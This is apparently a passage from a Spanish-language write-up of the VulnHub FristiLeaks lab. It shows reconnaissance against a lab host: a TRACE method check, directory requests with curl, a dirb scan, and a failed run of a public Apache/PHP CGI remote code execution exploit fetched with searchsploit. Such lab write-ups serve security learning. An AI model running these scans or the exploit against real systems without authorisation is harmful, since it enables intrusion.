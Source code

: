 2 - Validar que el método TRACE está habilitado:
Este método puede ser usado para ataques Cross Site Tracing (XST).
Podemos ver que está habilitado al reflejar las cabeceras.
```python
$curl -X TRACE http://192.168.0.70
TRACE / HTTP/1.1
Host: 192.168.0.70
User-Agent: curl/7.88.1
Accept: */*
```

3 - Aplicando un curl, nos da un código 301, y la página redirecciona a imágenes:
Este es el ejemplo con `\beer`, pero es lo mismo con los demás directorios.
```python
$curl -i http://192.168.0.70/beer
HTTP/1.1 301 Moved Permanently
[...]

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
	<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://192.168.0.70/beer/">here</a>.</p>
</body></html>
```

```
$searchsploit -m php/remote/29316.py
  Exploit: Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner
      URL: https://www.exploit-db.com/exploits/29316
     Path: /usr/share/exploitdb/exploits/php/remote/29316.py
    Codes: CVE-2012-2336, CVE-2012-2311, CVE-2012-1823, OSVDB-81633
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kmxbay/Documentos/VulnHub/FristiLeaks/29316.py
```

```
$python2 29316.py -h http://192.168.0.70/ -c 'ls' -v
--==[ ap-unlock-v1337.py by noptrix@nullsecurity.net ]==--
[+] s3nd1ng c0mm4ndz t0 h0st http://192.168.0.70/ 
-> c0uld n0t c0nn3ct t0 http://192.168.0.70/
[+] h0p3 1t h3lp3d

```

```
$dirb http://192.168.0.70
[...]                                                        
---- Scanning URL: http://192.168.0.70/ ----
+ http://192.168.0.70/cgi-bin/ (CODE:403|SIZE:210)                                
==> DIRECTORY: http://192.168.0.70/images/                                        
+ http://192.168.0.70/index.html (CODE:200|SIZE:703)                              
+ http://192.168.0.70/robots.txt (CODE:200|SIZE:62)  
```
